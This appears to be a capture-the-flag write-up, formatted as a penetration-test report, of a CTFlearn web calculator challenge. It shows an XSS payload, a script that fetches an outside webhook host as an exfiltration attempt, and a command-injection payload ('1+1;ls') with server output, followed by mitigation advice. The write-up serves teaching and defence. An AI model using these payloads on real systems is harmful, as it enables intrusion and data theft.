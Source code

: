 # Vulnerability Assessment and Penetration Testing (VAPT) Report – Code Injection Exploitation

**Prepared by:** Nishanth Antony  
**Date:** August 24, 2025  
**Difficulty:** Hard  
**Category:** Web Exploitation  
**Platform:** CTFlearn  

---

## 1. Reconnaissance Steps

**Objective:** Identify potential vulnerabilities in the web-based calculator accepting user inputs via POST requests.
**Tools Used:**

* Burp Suite (Proxy & Repeater)
* Browser Developer Tools
* Webhook.site

**Findings:**

* Application restricted keyboard input, allowing only button-based selection of digits/operators.
* POST request carried expressions in the form `expression=2+2`.
* No visible client-side sanitization of inputs.

---

## 2. Exploitation Process

**Step 1 – Request Interception**

* Intercepted POST request using Burp Suite:

  ```http
  POST /calculate HTTP/1.1
  Host: target.ctflearn.com
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 9

  expression=2+2
  ```

**Step 2 – XSS Injection Testing**

* Modified payload to:

  ```http
  expression=<script>alert(1)</script>
  ```
* Alert pop-up confirmed stored/reflective XSS vulnerability due to lack of sanitization.

**Step 3 – Data Exfiltration Attempt**

* Injected payload with external fetch call:

  ```http
  expression=<script>fetch("https://webhook.site/xyz")</script>
  ```
* Failed to retrieve data, likely due to server restrictions or no privileged interaction.

**Step 4 – Command Injection Hypothesis**

* Tested shell command injection using:

  ```http
  expression=1+1;ls
  ```

**Step 5 – Flag Retrieval**

* Response returned directory listing along with flag contents, confirming successful command execution on the server.

---

## 3. Proof of Concept (PoC)

* **Command Injection Payload:**

  ```http
  POST /calculate HTTP/1.1
  Host: target.ctflearn.com
  Content-Type: application/x-www-form-urlencoded

  expression=1+1;ls
  ```
* **Server Response (excerpt):**

  ```text
  index.php
  flag.txt
  calculate.php
  ...
  FLAG{c0mm4nd_1nj3ct10n_0wn3d}
  ```

---

## 4. Privilege Escalation

* Successful exploitation allowed arbitrary command execution (e.g., directory listing).
* Potential for further escalation (reading sensitive files, executing system commands) if deeper access were pursued.

---

## 5. Mitigation Recommendations

* **Input Sanitization:** Restrict accepted characters to digits and basic math operators (`0–9, +, -, *, /`).
* **Contextual Escaping:** Escape special symbols (`;`, `<`, `>`, `&`) to prevent code injection and XSS.
* **Avoid Dangerous Functions:** Replace insecure functions like `eval()` or `system()` with safe alternatives.
* **Sandboxing:** Execute user inputs in an isolated environment to minimize system compromise risks.
* **Principle of Least Privilege:** Ensure the web app runs with minimal permissions.
* **Regular Security Testing:** Employ fuzzing and penetration testing to identify injection points.

---

## 6. Lessons Learned

* **Restricted Interfaces ≠ Secure:** Even button-only inputs can be bypassed at request level.
* **Dangerous Functions:** Use of `eval()` or unsanitized shell commands creates critical vulnerabilities.
* **Defense-in-Depth:** Multi-layered validation and sandboxing are essential for web apps handling user input.

---

## 7. Skills Practiced

* Burp Suite request interception and manipulation
* Cross-Site Scripting (XSS) payload testing
* Command Injection exploitation
* Payload crafting for web-based exploitation
* Secure reporting with preventive measures
